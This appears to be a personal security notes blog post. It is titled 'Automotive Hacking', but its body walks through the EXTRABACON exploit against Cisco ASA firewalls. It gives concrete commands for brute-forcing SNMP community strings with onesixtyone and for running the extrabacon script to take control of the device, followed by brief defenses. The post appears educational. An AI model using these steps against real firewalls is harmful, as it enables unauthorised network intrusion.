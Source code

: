 ```yaml
---
layout: post
title: Automotive Hacking
subtitle: Overview and Notes
cover-img: /assets/img/path.jpg
tags: [Automotive, Hacking, Security]
---
```


This exploit requires;
1. SNMP be enabled on the device
2. Knowledge of the community string in any version of SNMP (v1,v2,v3)
2. an attack with IPv4 packets only
4. Access to a system residing on the interface to the firewall


Steps- 
	• Get SNMP <IP> from Wireshark 
	• Use snmpcheck -t <IP>

Cracking SNMP community strings( if not set to "public")
	kali > onesixtyone 192.168.1.102 -c /usr/share/doc/onesixtyone/dict.txt
	
	
	kali > ./extrabacon info -t 192.168.1.101 -c hackers-arise
		This will return a file that we need in exec mode of EXTRABACON. Here, I have named that file OTW
	kali > ./extrabacon_1.1.0.1.py exec -k OTW -t 192.168.1.101 -c hackers-arise --mode pass-enable
		When the exploit is successful, it will execute the shellcode on the Cisco ASA firewall, giving the attacker complete control!
				
Defenses
Until Cisco releases a patch for this exploit, your best defenses are two.
1. Make your SNMP community string long and complex
2. Disable SNMP on the vulnerable device (no snmp-server enable)


For more info - [Reference](https://www.hackers-arise.com/post/2019/03/23/network-basics-for-hackers-simple-network-management-protocol-snmp-theory-reconnaissance)
Zero Day - [NSA Exploit in CISCO ASA]( https://www.hackers-arise.com/post/2016/08/22/the-extrabacon-zero-day-exploit-on-cisco-asa-firewalls)
Car Hacking with Python - [Medium](https://medium.com/bugbountywriteup/car-hacking-with-python-part-1-data-exfiltration-gps-and-obdii-can-bus-69bc6b101fd1)
